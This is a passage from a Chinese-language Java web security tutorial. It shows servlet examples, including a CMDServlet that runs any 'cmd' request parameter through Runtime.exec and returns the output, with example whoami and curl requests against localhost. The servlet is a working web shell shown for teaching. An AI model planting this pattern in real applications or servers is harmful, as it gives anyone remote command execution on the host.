 ```java
      out.write(("Hello....<br/>Request Method:" + request.getMethod() + "<br/>Class:" + this.getClass()).getBytes());
   }

}
```

浏览器请求[http://localhost:8080/TestServlet/](http://localhost:8080/TestServlet/):

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20200910201502285.png" alt="image-20200910201502285" style="zoom:50%;" />

**CMDServlet示例代码：**

```java
package com.anbai.sec.server.test.servlet;

import org.javaweb.utils.IOUtils;

import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.OutputStream;

@WebServlet(name = "CMDServlet", urlPatterns = "/CMD/")
public class CMDServlet extends HttpServlet {

   @Override
   public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
      doPost(request, response);
   }

   @Override
   public void doPost(HttpServletRequest request, HttpServletResponse response) throws IOException {
      String cmd   = request.getParameter("cmd");
      byte[] bytes = IOUtils.toByteArray(Runtime.getRuntime().exec(cmd).getInputStream());

      OutputStream out = response.getOutputStream();
      out.write(bytes);
      out.flush();
      out.close();
   }

}
```

浏览器请求[http://localhost:8080/CMD/?cmd=whoami](http://localhost:8080/CMD/?cmd=whoami):

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20200910201725672.png" alt="image-20200910201725672" style="zoom:50%;" />

使用`curl`发送POST请求:`curl -i localhost:8080/CMD/ -d "cmd=pwd"`，服务器可以正常接收POST参数，处理结果如图：
